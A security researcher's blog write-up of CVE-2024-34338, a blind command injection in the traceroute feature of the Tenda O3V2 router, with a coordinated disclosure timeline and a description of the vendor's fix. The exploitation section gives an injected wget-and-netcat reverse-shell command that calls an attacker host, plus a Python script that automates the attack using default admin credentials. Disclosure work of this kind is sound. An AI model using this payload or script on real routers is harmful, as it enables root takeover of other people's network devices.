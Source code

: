 ```yaml
---
title: [CVE-2024-34338] Blind Command Injection in Tenda O3V2
date: 2024-05-01 13:00:00 +07:00
tags: [research, hardware]
---
```


Some time ago I had time to research router, the router I used for this research was a router that I hadn't used for a long time, namely Tenda O3V2. I used to use this router to connect to wifi over long distances (we call it "nembak wifi"). This Tenda O3 router actually has several versions, there are first version, second version, and third version, in this research I use the second version. The appearance of the Tenda O3V2 as shown below

![O3V2](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/O3.png)

In this research I found a blind command injection vulnerability in the traceroute feature. Blind command injection is a vulnerability that allows an attacker to execute operating system commands on the server that is running an application and application does not return the output from the command. So, Tenda O3V2 have diagnostic tool which includes traceroute but the ip address or domain input is not validated properly and allows the user to perform blind command injection. To perform blind command injection, the attacker needs admin access on the dashboard, but TendaO3V2 have default credential which is admin:admin, so if the user does not change the password then we can perform out blind command injection, and if the user has change password we still can bruteforce it until we got access in dashboard.

We need to retrieve the httpd binary from the router for static analysis to identify vulnerability within it. There are two methods that can be used: first, by extracting the firmware (download from the official website, the vulnerable firmware version is v1.0.0.12 and v1.0.0.10), and second, by directly accessing it from the live or active router. When using the first method to extract the firmware, no filesystem is found in the firmware, i dont know why, possibly due to encryption, obfuscation, packing in the firmware or something else (my skill issue :( ). Then, when attempting the second method via UART, I failed to solder onto its three pins (RX, TX, and GND) resulting in burnt pin and the pin slightly peeled off (once again, my skill issue). There is telnet on the router, we can use it, I enabled telnet through the dashboard (by default, telnet is disabled, and telnet credentials can be found on the internet) to gain shell access with root privileges. After obtaining shell access with root privileges, we can retrieve the httpd binary.

### Exploitation

Open router’s httpd binary with Ghidra. In the fromTraceroutGet function, there is a call to the FUN_004758f4 function, which contains a function for executing the traceroute command. Within the FUN_004758f4 function, there is the doSystemCmd function (used to perform traceroute), and this function requires user input. It is evident in the uVar5 variable in the fromTraceroutGet function that there is no sanitization; this variable will later be passed to the doSystemCmd function, potentially leading to command injection.

![fromtraceroutget Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fromtraceroutget.png)

![fun_004758f4 Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fun_004758f4.png)

Listen on port 1337 with nc (netcat), then activate the web server to make the router download the netcat binary (mips). Netcat is used for reverse shell.

![Python HTTP Server](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/pythonhttpserver.png)

Visit 192.168.2.1 then go to diagnose, select traceroute, and enter the IP.

![Diagnose](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/diagnose.png)

Intercept request when submit using burpsuite. In the getTraceroute endpoint, our IP is included in the destination parameter.

![Intercept Request](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/interceptrequest.png)

Change the value of the dest parameter to the command we want, for example performing a reverse shell<br>
```bash
;wget 192.168.2.158:8000/netcat -O /tmp/netcat&&chmod +x /tmp/netcat&&./tmp/netcat 192.168.2.158 1337 -e /bin/sh
```
Explanation of this command, the router will download the netcat binary stored in the tmp directory, then the binary will be given execute access and then execute the binary to reverse shell to port 1337. Then forward the request.

![Reverse Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/revshell.png)

Check the web server, and it's visible that the router is downloading the netcat file.

![Download nc MIPS](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/downloadncmips.png)

Check on the listener, the reverse shell is successful. Now, we got full access to the router with root privilege.

![Got Root Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/gotrootshell.png)

We can create a script to automate the process.


```python
import requests

username = "admin"
password = "YWRtaW4="
urllogin = "http://192.168.2.1/login/Auth"
logindata = {
    'username': username,
    'password': password,
    'timeZone': '12',
    'time': '2024;3;29;12;35;22'
}
command = "%3bwget+192.168.2.158:8000/netcat+-O+/tmp/netcat%26%26chmod+%2bx+/tmp/netcat%26%26./tmp/netcat+192.168.2.158+1337+-e+/bin/sh"

with requests.Session() as session:
        print("[Attempt Login]")
        session.post(urllogin, data=logindata)
        req = session.get(f"http://192.168.2.1/goform/getTraceroute?dest=1.1.1.1{command}&hop=1&_=1713166068405")
        print("[Got shell, Check your listener]")
```

### Mitigation

When this article was published, Tenda had already released new firmware for this device with firmware version 1.0.0.13(10751_5755). In this firmware version, the vulnerability has been fixed by implementing sanitization. Before entering the doSystemCmd function, user input will go through the is_valid_ip_or_domain function. If the input consists of numbers, it will return 1, then proceed to the doSystemCmd function, and the traceroute command will be executed.

![Sanitization](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/sanitization.png)

![is_valid_ip_or_domain Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/is_valid_ip_or_domain.png)


They still haven't released the new firmware to the public but you can download the latest firmware [here](https://drive.google.com/file/d/1687UGmpNgmPnvOeJtIuDvoEUrDh7VSKZ/view?usp=sharing){:target="_blank"}{:rel="noopener noreferrer"}


### Timeline
25 March 2024: Vulnerability discovered and the initial contact inquired about Security Vulnerability Reporting to the vendor via email.<br>
28 March 2024: Vendor replied to directly contact to their email.<br>
29 March 2024: Sent them the details of the vulnerability discovered.<br>
30 March 2024: Vendor triage the vulnerability.<br>
7 April 2024: Vendor release new firmware version 1.0.0.13(10751_5755).<br>
8 April 2024: Retesting on the new firmware version and confirming the vulnerability has been fixed.
7 May 2024: CVE ID assigned